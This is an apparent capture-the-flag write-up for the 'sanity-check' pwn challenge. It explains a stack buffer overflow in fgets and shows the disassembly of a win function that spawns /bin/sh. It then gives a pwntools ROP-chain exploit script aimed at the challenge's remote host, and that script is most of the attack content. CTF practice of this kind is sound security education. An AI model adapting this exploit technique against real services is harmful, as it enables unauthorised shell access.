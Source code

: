 ```asm
```

First off the main function calls the vuln function which takes the input from the fgets, there was a buffer overflow vulnerability in the fgets call since the buffer was of size 0x40, while the size fgets takes is 0x100 making it vulnerable to stack overflow. In the vuln function it checks if the rbp - 0x4 has the value 0xdeadc0de which calls the shell function it the value turns out to be same but the shell function wasn’t spawning shell, it turns out to be troll function. Next up, there was a win function:-

```asm

Dump of assembler code for function win:
   0x0000000000400697 <+0>:    push   rbp
   0x0000000000400698 <+1>:    mov    rbp,rsp
   0x000000000040069b <+4>:    sub    rsp,0x10
   0x000000000040069f <+8>:    mov    DWORD PTR [rbp-0x4],edi
   0x00000000004006a2 <+11>:    mov    DWORD PTR [rbp-0x8],esi
   0x00000000004006a5 <+14>:    lea    rdi,[rip+0x18c]        # 0x400838
   0x00000000004006ac <+21>:    call   0x400550 <puts@plt>
   0x00000000004006b1 <+26>:    cmp    DWORD PTR [rbp-0x4],0xdeadbeef
   0x00000000004006b8 <+33>:    jne    0x4006f1 <win+90>
   0x00000000004006ba <+35>:    lea    rdi,[rip+0x1b7]        # 0x400878
   0x00000000004006c1 <+42>:    call   0x400550 <puts@plt>
   0x00000000004006c6 <+47>:    cmp    DWORD PTR [rbp-0x8],0x1337c0de
   0x00000000004006cd <+54>:    jne    0x4006f1 <win+90>
   0x00000000004006cf <+56>:    lea    rdi,[rip+0x1b7]        # 0x40088d
   0x00000000004006d6 <+63>:    call   0x400550 <puts@plt>
   0x00000000004006db <+68>:    lea    rdi,[rip+0x1bc]        # 0x40089e
   0x00000000004006e2 <+75>:    call   0x400560 <system@plt>
   0x00000000004006e7 <+80>:    mov    edi,0x0
   0x00000000004006ec <+85>:    call   0x4005a0 <exit@plt>
   0x00000000004006f1 <+90>:    nop
   0x00000000004006f2 <+91>:    leave  
   0x00000000004006f3 <+92>:    ret    
```

This function spawns a shell /bin/sh but only if the given argument to the function will be equivalent to 0xdeadbeef and 0x1337c0de respectively. In order to do so, we find the gadgets using ropper, since the binary is 64 bit, the calling convention of the 64 bit architecture says 1st argument for a function calls goes to the rdi while the second goes to rsi and so on. We find two useful gadgets here:-

```asm

0x0000000000400813: pop rdi; ret; 
0x0000000000400811: pop rsi; pop r15; ret; 

Now, we can just create a ROP chain and give the value 0xdeadbeef to the rdi and 0x1337c0de to the rsi and give any junk value to the r15 since it doesn’t matter what r15 holds, the exploit was as follows:-
py

from pwn import *

p = remote("dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io", 7480)

payload = b"A"*72
payload += p64(0x0000000000400813)
payload += p64(0xdeadbeef)
payload += p64(0x0000000000400811)
payload += p64(0x1337c0de)*2
payload += p64(0x400697)

p.recvline()
p.sendline(payload)
```